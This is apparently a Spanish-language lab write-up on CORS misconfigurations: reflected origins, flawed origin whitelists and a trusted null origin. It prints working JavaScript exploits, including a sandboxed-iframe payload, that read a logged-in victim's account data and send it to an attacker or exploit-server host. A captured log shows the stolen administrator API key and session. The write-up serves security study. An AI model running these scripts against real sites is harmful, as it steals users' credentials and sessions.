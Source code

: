 

## Server-generated ACAO header from client-specified Origin header

Algunas aplicaciones necesitan proporcionar acceso a otros dominios. Mantener una lista de dominios permitidos requiere un esfuerzo continuo, y cualquier error puede comprometer la funcionalidad. Por eso, algunas aplicaciones optan por la vía más fácil y permiten el acceso desde cualquier otro dominio.

Una forma de hacerlo es leyendo el encabezado Origin de las solicitudes e incluyendo un encabezado de respuesta que indique que el origen solicitante está permitido. Por ejemplo, consideremos una aplicación que recibe la siguiente solicitud:

```c
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

A continuación, responde con:

```c
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Estos encabezados indican que se permite el acceso desde el dominio solicitante (`malicious-website.com`) y que las solicitudes de origen cruzado pueden incluir cookies (`Access-Control-Allow-Credentials: true`), por lo que se procesarán durante la sesión.

Dado que la aplicación refleja orígenes arbitrarios en el encabezado `Access-Control-Allow-Origin`, esto significa que absolutamente cualquier dominio puede acceder a los recursos del dominio vulnerable. Si la respuesta contiene información confidencial, como una clave API o un token CSRF, podría recuperarla colocando el siguiente script en su sitio web:

```c
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

## Errors parsing Origin headers

Algunas aplicaciones que admiten el acceso desde múltiples orígenes lo hacen utilizando una lista blanca de orígenes permitidos. Cuando se recibe una solicitud CORS, el origen proporcionado se compara con la lista blanca. Si el origen aparece en la lista blanca, se refleja en el encabezado `Access-Control-Allow-Origin` para que se conceda el acceso. Por ejemplo, la aplicación recibe una solicitud normal como:

```c
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

La aplicación comprueba el origen proporcionado con su lista de orígenes permitidos y, si está en la lista, refleja el origen de la siguiente manera:

```c
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

A menudo se producen errores al implementar listas blancas de origen CORS. Algunas organizaciones deciden permitir el acceso desde todos sus subdominios (incluidos los subdominios futuros que aún no existen). Y algunas aplicaciones permiten el acceso desde dominios de otras organizaciones, incluidos sus subdominios. Estas reglas suelen implementarse haciendo coincidir los prefijos o sufijos de las URL, o utilizando expresiones regulares. Cualquier error en la implementación puede dar lugar a que se conceda acceso a dominios externos no deseados.

Por ejemplo, supongamos que una aplicación concede acceso a todos los dominios que terminan en:

```c
normal-website.com
```

Un atacante podría obtener acceso registrando el dominio:

```c
hackersnormal-website.com
```

Por otra parte, supongamos que una aplicación concede acceso a todos los dominios que comienzan por

```c
normal-website.com
```

Un atacante podría obtener acceso utilizando el dominio:

```c
normal-website.com.evil-user.net
```

## Whitelisted null origin value

La especificación del encabezado Origin admite el valor `null`. Los navegadores pueden enviar el valor `null` en el encabezado Origin en diversas situaciones poco habituales:

- Redireccionamientos entre orígenes.
- Solicitudes de datos serializados.
- Solicitudes que utilizan el protocolo `file:`.
- Solicitudes entre orígenes en entornos aislados.

## Lab: CORS vulnerability with trusted null origin

![20250922002900.png](20250922002900.png)

Una vez iniciado sesion podemos ver que el usuario puede accede a su cuenta y esta hace una solicitud a `/accountDetails` para obtener la información de cada usuario

![20250922095926.png](20250922095926.png)

Al hacer la petición a `/accountDetails` observamos que este devuelve información del usuario y unas credenciales, así como la session

![20250922100007.png](20250922100007.png)

Ahora enviaremos a la victima nuestro script malicioso.

```c
<!DOCTYPE html>
<html lang="en">

<body>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://0a57004b0304e4de80f20d18008800ca.web-security-academy.net/accountDetails',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='https://exploit-0a0e006f037de41f80750c3c01d000a6.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
        };
    </script>"></iframe>
</body>
</html>
```

Una vez enviada, podremos ver la información del usuario administrator.

![20250922103550.png](20250922103550.png)

```c
10.0.3.228      2025-09-22 15:34:37 +0000 "GET /log?key=%7B%0A%20%20%22username%22%3A%20%22administrator%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%22VcnzZSwx3G2pF8fiz0yZwabN9JG5pug4%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22woXkLoEaVfS70SWB2BPeDYxApS0p6HiG%22%0A%20%20%5D%0A%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

```c
10.0.3.228      2025-09-22 15:34:37  0000 "GET /log?key={
  "username": "administrator",
  "email": "",
  "apikey": "VcnzZSwx3G2pF8fiz0yZwabN9JG5pug4",
  "sessions": [
    "woXkLoEaVfS70SWB2BPeDYxApS0p6HiG"
  ]
} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```